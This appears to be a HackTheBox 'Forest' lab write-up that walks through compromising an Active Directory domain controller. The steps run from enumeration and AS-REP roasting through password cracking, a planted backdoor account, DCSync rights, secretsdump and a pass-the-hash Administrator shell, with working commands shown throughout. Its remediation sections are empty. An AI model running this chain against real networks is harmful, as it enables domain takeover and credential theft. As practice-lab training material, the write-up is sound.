






# HackTheBox - Forest


## Overview

- Difficulty: Easy
- Platform: Active Directory
- Skills Demonstrated: Active Directory, SMB Enumeration, AS-REP Roasting, Password Decryption, Windows Privilege Escalation, Group Permissions Exploitation

## Methodology 

The assessment followed a standard attack methodology:

1. Enumeration
2. Initial Access
3. Privilege Escalation
4. Post Exploitation
---

## Enumeration

Intial enumeration was performed by running a port scan to idenitfy open ports and services
```
nmap 10.129.95.210 -sCV -A -p-
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-31 12:30 BST
Nmap scan report for 10.129.95.210
Host is up (0.012s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2026-05-31 11:37:59Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
...
```
Key Findings:
- Accessible ports DNS (53), Kerberos (88), and LDAP (389) indicate the target is an Active Directory Domain Controller
- Port 445 (SMB) is exposed
- Port 5985 (WinRM) is exposed


Further enumeration was performed using `enum4linux` to identify accessible SMB shares and enumerate domain users. 
```
enum4linux 10.129.95.210
```


Upon discovering a list of users, I attempted AS-REP Roasting to identify any accounts with the `DONT_REQUIRE_PREAUTH` flag enabled. This would allow Kerberos AS-REP hashes to be requested without authentication
```
impacket-GetNPUsers htb.local/ -dc-ip 10.129.95.210 -no-pass -usersfile users
```



## Initial Access

I was able to successfully obtain the hashed password for the `svc-alfresco` user. The recovered hash was saved locally and taken offline and cracked using `Hashcat`
```
hashcat -m 18200 alfresco.hash /usr/share/wordlists/rockyou.txt
```


With the plaintext password revealed, the credentials were validated against the WinRM service
```
netexec winrm 10.129.95.210 -u 'svc-alfresco' -p 's3rvice' 
```


Following successful authentication as the `svc-alfresco` account, `evil-winrm` was used to obtain an interactive shell on the target
```
evil-winrm -i 10.129.95.210 -u svc-alfresco -p s3rvice
```



## Privilege Escalation

Now that intial access has been obtained, the privileges assigned to `svc-alfresco` were examined to identify potential privilege escalation paths. In this case the user is a member of the `Account Operators` group, a highly privileged group that can be exploited to further abuse group and user privileges ultimately leading to Domain compromise.  


This can be achieved because `Account Operators` can modify user objects for any user that is not a member of one of the protected groups: Administrators, Domain Admins and Enterprise Admins



`Bloodhound`was used to visualise and idenitfy Active Directory escalation paths. 

### BloodHound

The BloodHound injestor `SharpHound` was used to collect the Active Directory information
```
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\svc-alfresco\Desktop -OutputPrefix "collector"
```



The following attack path has been discovered:


svc-alfresco
    ↓ MemberOf
Account Operators
    ↓ GenericAll
Exchange Windows Permissions
    ↓ WriteDACL
HTB.LOCAL


A new domain user (`Backdoor`) was created and added to the `Exchange Windows Permissions` group. Since this group has `WriteDACL` permissions over the domain object, the account was able to modify the domain ACL. `PowerView` was then used to grant the account the replication permissions (`DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`) required to perform a DCSync attack and retrieve credentials from the domain controller.
```
$SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('htb\Backdoor', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity Backdoor -Rights DCSync
```



Finally, the `impacket-secretsdump` tool was executed to retrieve the NTLM hash of the `Administrator` account and the `pass-the-hash` technique was used to bypass authentication methods and obtain a privileged shell as the Administrator.
```
impacket-secretsdump -just-dc-user Administrator htb/Backdoor:"Password1"@10.129.95.210
```


```
evil-winrm -i 10.129.95.210 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```
## Conclusion

## Lessons Learned

## Remediation
